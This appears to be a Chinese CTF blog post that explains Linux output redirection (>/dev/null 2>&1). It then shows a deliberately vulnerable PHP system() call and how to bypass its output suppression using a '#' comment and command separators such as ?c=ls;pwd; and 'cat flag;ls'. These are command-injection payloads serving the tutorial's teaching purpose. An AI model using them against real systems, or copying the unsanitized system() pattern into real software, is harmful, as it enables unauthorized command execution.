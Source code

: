 ```yaml
---
title: 输出重定向>/dev/null
date: 2024-05-15 21:53:24
permalink: /pages/ce50e0/
categories:
  - linux
tags:
  - linux
author: 
  name: the0n3
  link: https://the0n3.top
---
```



# 重定向黑洞

分析`>/dev/null 2>&1`：

- \>：将标准输出重定向
- /dev/null：一个“黑洞”，用于丢弃数据。
- 2>&1：将标准错误（文件描述符2）重定向到标准输出（文件描述符1），即把错误输出和正常输出都导向/dev/null

因此，这个命令的整体效果是，运行命令时，不会在终端上看到任何输出或错误信息。这个技巧常用于需要静默运行的脚本或命令。

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}
```

> system($c." >/dev/null 2>&1");

system执行$c的终端命令 **">/dev/null 2>&1"** 加上这句后，执行命令但无回显

解决方案：

## 注释

emm,很简单的一个姿势

```bash
ctf@ubuntu:~$ ls
1.txt
ctf@ubuntu:~$ ls # >/dev/null 2>&1
1.txt
```

## 一次执行多条命令

> 在Linux命令行中，分号（;）、竖线（|）、双竖线（||）、和符号（&）以及双与符号（&&）有不同的作用：

在linux终端中，一次是可以执行多个命令的，例如`pwd;ls;`，通过这些分隔符，可以分割多个命令

可以通过拼接，实现类似`cat flag;ls`，拼接到php里后，就是`cat flag;ls >/dev/null 2>&1`，这样第二条命令没有回显，第一条不受影响

```bash
分号（;）：用于分隔多个命令，依次执行每个命令，不管前面的命令是否成功。          例如：?c=ls;pwd;  
竖线（|）：管道符号，用于将一个命令的输出传递给另一个命令作为输入。             # 测试失败
双竖线（||）：逻辑或运算符，用于在第一个命令失败时执行第二个命令。              例如：?c=ls||
和符号（&）：在命令末尾使用表示在后台执行该命令。                              例如：?c=pwd%26
双与符号（&&）：逻辑与运算符，用于只有在第一个命令成功执行后才执行第二个命令。   例如：?c=pwd%26%26  
```


::: tip
请注意：**其中在使用GET传值时，&和&&都需要进行url编码**  
:::


因此，在这里使用GET给$c传值时，加入这些**用于控制终端命令分隔符**的符号，一次执行多条命令，在一条命令结果被吞掉时不至于影响到其他命令